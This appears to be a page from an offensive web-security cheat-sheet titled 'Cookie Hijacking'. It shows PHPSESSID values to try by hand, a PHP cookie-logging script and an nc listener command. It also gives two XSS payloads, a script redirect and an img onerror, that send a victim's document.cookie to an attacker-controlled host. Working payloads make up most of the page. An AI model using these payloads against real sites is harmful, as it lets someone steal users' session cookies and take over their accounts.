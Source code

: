 ```yaml
---
title: Cookie Hijacking
description: A methodology of manipulating, grabbing cookies.
tags:
    - Cookie
    - Web
refs:
    - https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
date: 2023-04-21
draft: false
---
```


## Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## PHP Cookie Grabbing with XSS

In your local machine, create the payload for grabbing the cookie when the other user will access your machine.  

```php
// steal_cookie.php

<?php echo $_GET['cookie']; ?>
```

Create the JavaScript code to force users to access your machine which shows the victim's cookie value.

```javascript
<script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
```

POST request with this JavaScript code to the target web page.  
Open listner in your local machine and wait for the other users will access the target web page.

```sh
nc -lvnp 4444
```

<br />

## Python Cookie Stealer with XSS

[This script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) is useful to steal Cookie.   
To start web server, execute the Python script as below.

```bash
python2 XSS-cookie-stealer.py
```

Then inject our XSS to steal Cookie via our web server.  
For instance,

<div data-pagefind-ignore>

```html
<img src=x onerror=this.src='http://10.0.0.1:8888/?'+document.cookie;>
```

</div>